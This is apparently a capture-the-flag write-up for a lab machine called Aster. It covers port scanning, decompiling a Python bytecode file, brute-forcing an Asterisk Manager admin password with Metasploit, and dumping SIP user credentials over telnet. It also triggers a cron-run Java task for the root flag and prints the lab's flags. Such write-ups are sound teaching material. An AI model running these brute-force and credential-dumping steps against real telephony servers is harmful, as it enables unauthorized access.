










## TL;DR

In this challenge we starts with password enumeration on the `asterisk` service, based on the username we find from `output.pyc` which we decompile.
Then, after find the password, we login and grab the `SIP records`, which gives us the credentials of user `harry`.

We can grab the root flag by simply creating the file `/tmp/flag.dat`. It can be inferred by decompiling the .jar file we find on the home folder.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh, port `80` with apache http server, port `1720` with unknown service, port `2000` with unknown service and port `5038` with asterisk
```bash
PORT     STATE SERVICE     REASON         VERSION                                                                                                            
22/tcp   open  ssh         syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)                                                      
| ssh-hostkey: 
|   2048 fe:e3:52:06:50:93:2e:3f:7a:aa:fc:69:dd:cd:14:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDEs6oKJb5SNNUczex8j97pL/V93XRaRytbAH7iR9pN0HbCmc2bD/Rg4IUuDArz4USY1G5aN0r+C3fcBSlmLWaqk+uzbNZFriELMcJPKa7tP7zx7o4TVMQDepvvcZUy9Z8QoA+n4cJYOjlldkWGq/dmsPQqBHDmHowxMauJkZxh2QVR0WpDZxcjbS26O8aC62QvT5ct9wgzBzD/dVV/SC3VH7sQOPsEFj+PHGoHrFz7MntxtRyR9Ujf+Dzbk2wnUVGrc6NZt8MV3vfo5nXjBRPTaIX6XNTijQxoj0/0NJ3YwntmHOQXaPu4++fzjP9cf4+r8PNppeKNYwWLRxzjnAiZ
|   256 9c:4d:fd:a4:4e:18:ca:e2:c0:01:84:8c:d2:7a:51:f2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPROPGV3YntCB4YEBuSk7u8qF0H9WxI9nTGbCJahJP4gJNcEj4uwn24Ep1eSs0kHxjFdri6+QQlPUygwRvAQqTs=
|   256 c5:93:a6:0c:01:8a:68:63:d7:84:16:dc:2c:0a:96:1d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPrB46mC2C71WGXfIc9TwwLWhC99D9M2IxUHbQCbH0vp
80/tcp   open  http        syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Aster CTF
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
1720/tcp open  h323q931?   syn-ack ttl 62
2000/tcp open  cisco-sccp? syn-ack ttl 62
5038/tcp open  asterisk    syn-ack ttl 62 Asterisk Call Manager 5.0.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `aster.thm` to my `/etc/hosts`

### Password enumeration on asterisk service and find records of SIP users hold credentials for user harry

When visiting the main page, we can see only the option for download `output.pyc`:



I downloaded this file, and uploaded it to [https://www.lddgo.net/en/string/pyc-compile-decompile](https://www.lddgo.net/en/string/pyc-compile-decompile), in order to decompile it back to python code:



This is the source code.
```py
import pyfiglet
o0OO00 = pyfiglet.figlet_format('Hello!!')
oO00oOo = '476f6f64206a6f622c2075736572202261646d696e2220746865206f70656e20736f75726365206672616d65776f726b20666f72206275696c64696e6720636f6d6d756e69636174696f6e732c20696e7374616c6c656420696e20746865207365727665722e'
OOOo0 = bytes.fromhex(oO00oOo)
Oooo000o = OOOo0.decode('ASCII')
if 0:
    (i1 * ii1IiI1i % OOooOOo) / I11i / o0O / IiiIII111iI
Oo = '476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21'
I1Ii11I1Ii1i = bytes.fromhex(Oo)
Ooo = I1Ii11I1Ii1i.decode('ASCII')
if 0:
    iii1I1I / O00oOoOoO0o0O.O0oo0OO0 + Oo0ooO0oo0oO.I1i1iI1i - II
print o0OO00
```

I decoded the two strings using python terminal:
```txt
Good job reverser, python is very cool!Good job reverser, python is very cool!Good job reverser, python is very cool!
Good job, user "admin" the open source framework for building communications, installed in the server.
```



It tells us that there is some `open source framework for building communications`, with the user `admin`.
This is exactly what Asterisk is:
> Asterisk is a prominent open-source framework for building telecommunication applications like private branch exchanges (PBX) and voice-over-IP (VoIP) systems.

We'll use the steps from here [https://www.hackingarticles.in/penetration-testing-on-voip-asterisk-server-part-2/](https://www.hackingarticles.in/penetration-testing-on-voip-asterisk-server-part-2/), we want to brute forcing the password of user `admin` using metasploit:

We'll use the module `auxiliary/voip/asterisk_login`, and the default passwords supplied with metasploit
```bash
msf auxiliary(voip/asterisk_login) > set USERNAME admin
USERNAME => admin
msf auxiliary(voip/asterisk_login) > set RHOSTS 10.67.189.105
RHOSTS => 10.67.189.105
msf auxiliary(voip/asterisk_login) > run
[*] 10.67.189.105:5038    - Initializing module...
[*] 10.67.189.105:5038    - 10.67.189.105:5038 - Trying user:'admin' with password:'admin'
[*] 10.67.189.105:5038    - 10.67.189.105:5038 - Trying user:'admin' with password:'123456'
[*] 10.67.189.105:5038    - 10.67.189.105:5038 - Trying user:'admin' with password:'12345'
[*] 10.67.189.105:5038    - 10.67.189.105:5038 - Trying user:'admin' with password:'123456789'
[*] 10.67.189.105:5038    - 10.67.189.105:5038 - Trying user:'admin' with password:'password'
[*] 10.67.189.105:5038    - 10.67.189.105:5038 - Trying user:'admin' with password:'iloveyou'
[*] 10.67.189.105:5038    - 10.67.189.105:5038 - Trying user:'admin' with password:'princess'
[*] 10.67.189.105:5038    - 10.67.189.105:5038 - Trying user:'admin' with password:'1234567'
[*] 10.67.189.105:5038    - 10.67.189.105:5038 - Trying user:'admin' with password:'12345678'
[*] 10.67.189.105:5038    - 10.67.189.105:5038 - Trying user:'admin' with password:'abc123'
[+] 10.67.189.105:5038    - User: "admin" using pass: "abc123" - can login on 10.67.189.105:5038!
```

We found the password `abc123` for user `admin`.




Now, we first want to login, we need to use telnet in order to communicate with the service:
```bash
telnet aster.thm 5038
```

Then, we can paste this payload for login
```bash
Action: Login
Username: admin
Secret: abc123
```

After successful authenticating, we want to list all SIP users:
```bash
Action: command
Command:  sip show users
```



We got the credentials of user `harry`:
```bash
harry:p4ss#w0rd!#
```

Let's login using ssh to user `harry`:



we can grab the user flag:
```bash
harry@ubuntu:~$ cat user.txt 
thm{bas1c_aster1ck_explotat1on}
```

### Achieve root flag using decompile of .jar file found and create /tmp/flag.dat

We can see the file `Example_Root.jar` on the home folder.


I downloaded this file and uploaded it to [https://www.decompiler.com/jar/f4548f38e57747bdb71dbdf2633b17ad/Example_Root.jar](https://www.decompiler.com/jar/f4548f38e57747bdb71dbdf2633b17ad/Example_Root.jar), for decompile back to java.



This is the source code after decompilation:
```java
┌──(agonen㉿kali)-[~/thm/Aster/Example_Root]
└─$ cat Example_Root.java 
import java.io.File;
import java.io.FileWriter;
import java.io.IOException;

public class Example_Root {
   public static boolean isFileExists(File var0) {
      return var0.isFile();
   }

   public static void main(String[] var0) {
      String var1 = "/tmp/flag.dat";
      File var2 = new File(var1);

      try {
         if (isFileExists(var2)) {
            FileWriter var3 = new FileWriter("/home/harry/root.txt");
            var3.write("my secret <3 baby");
            var3.close();
            System.out.println("Successfully wrote to the file.");
         }
      } catch (IOException var4) {
         System.out.println("An error occurred.");
         var4.printStackTrace();
      }

   }
}
```

Okay, It looks like it checks whether the file `/tmp/flag.dat` exists, and if so, it writes some string to `/home/harry/root.txt`.

When I checked for cronjobs, I saw there is some java task being executed, also pspy64 showed me that



Let's create the file `/tmp/flag.dat`, and wait for the task to run:
```bash
touch /tmp/flag.dat
```

It worked! 



We got our root flag
```bash
harry@ubuntu:~$ cat root.txt 
thm{fa1l_revers1ng_java}
```
